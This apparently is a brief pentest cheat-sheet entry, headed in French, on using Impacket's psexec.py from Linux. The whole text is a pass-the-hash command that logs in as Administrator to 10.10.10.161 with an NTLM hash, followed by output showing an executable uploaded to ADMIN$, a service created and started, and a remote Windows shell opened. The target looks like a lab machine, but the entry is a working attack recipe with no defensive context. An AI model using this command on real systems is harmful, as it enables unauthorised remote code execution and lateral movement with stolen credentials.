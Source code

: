 # psexec

## depuis linux:

/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file cmIkPieS.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service vCXp on 10.10.10.161.....
[*] Starting service vCXp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.



